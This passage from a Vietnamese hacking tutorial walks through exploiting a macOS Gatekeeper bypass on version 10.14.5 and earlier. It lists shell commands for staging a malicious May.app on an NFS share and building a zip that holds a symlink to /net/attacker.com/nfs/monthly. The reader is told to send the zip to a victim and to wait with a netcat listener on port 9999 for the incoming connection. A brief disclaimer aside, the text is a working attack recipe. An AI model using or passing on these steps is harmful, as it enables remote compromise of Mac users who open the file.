 Chuyển file May.app về folder bạn đang làm việc
`/nfs/monthly``# mv tmp/May.app/ .`

Tiến hành xóa các file, folder không còn cần thiết
`/nfs/monthly``# rm -rf tmp/ &amp;&amp; rm May.zip`

Lúc này trong $app.app chỉ còn lại file May.app

`/nfs/monthly``# ls -la`

`total 12`

`drwxr-xr-x 3 root root 4096 May 26 22:53 .`

`drwxr-xr-x 3 root root 4096 May 26 22:17 ..`

`drwxr-xr-x 3 root root 4096 May 26 22:23 May.app`

Bước 3 : Tạo file exploit.zip
-----------------------------

File exploit.zip như mình đã nói ở trên, sẽ chứa symlink gọi tới NSF share server vừa được setup ở trên. Gõ lệnh sau trên máy Macbook:

`~$` `mkdir` `monthly`


Tạo một symlink tên invoices trong folder monthly

`~$` `ln` `-s` `/net/attacker``.com``/nfs/monthly` `monthly``/invoices`


Nén những gì vừa được tạo ra thành file exploit.zip . Đây là file sẽ được gửi cho user.

`~$ zip -r -y archive.zip monthly`

Lưu ý :

-   -r sẽ giúp bạn nén đệ quy hết tất cả các file trong các folder
-   -y sẽ giúp bạn giữ cấu trúc của symlink khi giải nén

Bước 4 : Gửi file exploit.zip cho nạn nhân
------------------------------------------

![](https://anonymousvn.org/wp-content/uploads/2019/05/send-exploit.zip-to-user.jpg)

Sau khi gửi xong, tất cả những gì bạn cần làm là đợi user mở file May.app.

Ở VPS bạn gõ lệnh sau để lắng nghe các kết nối tới port 9999

`nc` `-l -p 9999`

Chúc bạn thành công <3

Lưu ý : Bài viết mang tính chất tham khảo, không áp dụng với mục đích phá hoại. Bạn phải chịu mọi trách nhiệm về những gì bạn làm.
Nguồn : https://anonymousvn.org/huong-dan-bypass-gatekeeper-va-khai-thac-lo-hong-macos-tren-phien-ban-10-14-5-va-thap-hon.hav
Nguồn tiếng Anh  : <https://null-byte.wonderhowto.com/how-to/bypass-gatekeeper-exploit-macos-v10-14-5-earlier-0198089/>

Video của tác giả : <https://ouo.io/gxjB8vS>